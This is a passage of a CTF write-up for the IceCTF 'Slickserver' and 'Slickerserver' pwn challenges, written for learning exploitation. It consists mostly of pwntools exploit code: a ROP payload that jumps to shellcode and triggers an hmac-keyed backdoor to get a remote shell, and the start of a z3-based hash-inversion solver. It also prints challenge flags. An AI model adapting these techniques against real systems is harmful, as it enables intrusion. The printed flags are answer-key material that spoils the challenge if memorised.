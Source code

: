 ``` python
# jump to the shellcode
payload += p64(shellcode_addr)

# set the values for the backdoor using hmac
hmac_addr = 0x601510 # .data, strings part
hmac_value = 0xa2928adbd046983b
while len(payload) < 1000 - 8*3:
    payload += p64(ret)
payload += 'AAAAAAAA'
payload += 'BBBBBBBB'
payload += 'CCCCCCCC'
assert len(payload) == 1000
payload += p64(hmac_value ^ pop_rdi_ret)
payload += 'DDDDDDDD'
payload += p64(hmac_addr)
payload += '*SOCKET*' # the sockfd here
assert len(payload) < 8192

p = remote(args.host, args.port)
p.send(payload)
time.sleep(1)
p.sendline('id')
p.interactive()
```

## Slickerserver

The fixed Slickserver. This time, we should calculate the inverse of the `hmac` to use the backdoor.
Things except this is same to the previous one, and ROP gadgets is more rich.

To crack the `hmac` function, I used the [z3](https://github.com/Z3Prover/z3).
The previous flag `IceCTF{r0p+z3-FTW}` was a hint.
<https://wiki.mma.club.uec.ac.jp/CTF/Toolkit/z3py> (in Japanese) is a good page about z3, and you should take care about the `>>` operator of z3 (see the code below).

`IceCTF{m4ster1ng_the_4rt_of_f1x3d_p0ints}`.

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='slick.vuln.icec.tf')
parser.add_argument('port', nargs='?', default=6601, type=int)
args = parser.parse_args()
context.log_level = 'debug'
context.arch = 'amd64'

def xorsum(s): # with u64
    assert len(s) % 8 == 0
    x = 0
    for i in range(0, len(s), 8):
        x ^= u64(s[i : i+8])
    return x

def murmur1(ys, k, shift=(lambda x, y: x >> y), hook=(lambda x: x)):
    m64 = lambda x: x & 0xffffffffffffffff
    x = hook(m64(len(ys) * 8 * 0xa165c8277) ^ k)
    for y in ys:
        x = hook(m64(x + y))
        x = hook(m64(x * 0xa165c8277))
        x = hook(shift(x, 16) ^ x) # in the z3py, the __rshift__ operator `>>' is interpreted as signed shift and this causes failure
```